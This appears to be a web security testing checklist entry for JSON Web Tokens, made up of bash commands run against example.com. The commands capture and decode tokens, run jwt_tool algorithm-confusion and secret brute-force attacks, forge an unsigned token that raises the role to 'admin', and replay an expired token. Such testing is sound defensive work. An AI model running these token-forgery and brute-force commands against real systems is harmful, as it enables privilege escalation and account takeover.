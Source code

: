 ## WSTG-SESS-10: Testing JSON Web Tokens

**Objective**: Determine whether the JWTs expose sensitive information and whether the JWTs can be tampered with or modified.

### Commands

```bash
# Extract JWT from response
curl -s -X POST -d "username=user1&password=password1" https://example.com/api/login | grep -o "eyJ[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*"

# Decode JWT to check for sensitive information
# 1. Get the JWT
jwt=$(curl -s -X POST -d "username=user1&password=password1" https://example.com/api/login | grep -o "eyJ[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*")
# 2. Decode the header and payload
echo $jwt | cut -d. -f1 | base64 -d 2>/dev/null | jq .
echo $jwt | cut -d. -f2 | base64 -d 2>/dev/null | jq .

# Test for JWT algorithm confusion
# Using jwt_tool (command-line representation)
# 1. Get the JWT
jwt=$(curl -s -X POST -d "username=user1&password=password1" https://example.com/api/login | grep -o "eyJ[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*")
# 2. Attempt algorithm confusion attack
python3 jwt_tool.py $jwt -X a

# Test for weak signature verification
# 1. Get the JWT
jwt=$(curl -s -X POST -d "username=user1&password=password1" https://example.com/api/login | grep -o "eyJ[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*")
# 2. Modify the payload and remove the signature
header=$(echo $jwt | cut -d. -f1)
payload=$(echo $jwt | cut -d. -f2 | base64 -d 2>/dev/null | sed 's/"role":"user"/"role":"admin"/' | base64 | tr -d '=' | tr '/+' '_-')
modified_jwt="${header}.${payload}."
# 3. Test the modified JWT
curl -s -H "Authorization: Bearer $modified_jwt" https://example.com/api/admin

# Test for JWT expiration
# 1. Get the JWT
jwt=$(curl -s -X POST -d "username=user1&password=password1" https://example.com/api/login | grep -o "eyJ[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*\.[a-zA-Z0-9_-]*")
# 2. Check the expiration time
echo $jwt | cut -d. -f2 | base64 -d 2>/dev/null | jq .exp
# 3. Wait until after expiration
echo "Waiting for JWT to expire..."
sleep 3600  # Adjust based on the expiration time
# 4. Test the expired JWT
curl -s -H "Authorization: Bearer $jwt" https://example.com/api/profile

# Test for JWT brute force attacks (if using a weak secret)
# Using jwt_tool (command-line representation)
python3 jwt_tool.py $jwt -C -d /path/to/wordlist.txt
```
